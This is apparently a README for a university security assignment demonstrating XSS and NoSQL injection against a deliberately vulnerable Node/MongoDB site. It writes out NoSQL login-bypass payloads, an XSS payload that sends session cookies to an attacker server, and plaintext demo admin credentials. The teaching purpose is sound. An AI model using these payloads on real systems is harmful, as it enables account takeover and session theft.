 # ISEC3004-Assignment

## Introduction<br>

This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
#### index.html - Main page for the website<br>
#### Backend - Backend Server
This backend acts as a server for the website. It is written in JavasScript using NodeJS runtime environment and ExpressJS framework. It uses MongoDB as the database.<br>
To run the backend server, navigate to the directory and run the following commands:<br>
  
```console
npm install
nodemon index.js
```
<b>Make sure to replace the mongoose.connect the URL with your mongoDB URL by specifying MONGO_URL value in .env file.</b>

#### EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in JavasScript using NodeJS runtime environment and ExpressJS framework.<br>
To run the backend server, navigate to the directory and run the following commands:<be>

```console 
npm install
nodemon index.js
```
<b>Make sure to specify EMAIL_TOKEN, EMAIL_FROM, EMAIL_TO, EMAIL_PASSWORD values in .env file.</b>

***

#### NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>

```console
"password": {"$ne": null}
```
<br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>

```console
"email": {"$ne": null}, "password": {"$ne": null}
```
<br>

In the above scenarios, {"$ne": null} means <b>not equal to null</b>.

#### XSS - XSS Attack <br>
When a user account is created with a XSS payload as the user such as: <br>

```console 
<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>
```
<br>
The payload will be executed when the Administrator of the system loads the admin page. The invalid source url will cause an error and execute the XSS payload in onerror attribute. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>

Administrator account credentials:<br>
Email: gimantha@gmail.com
Password: 123
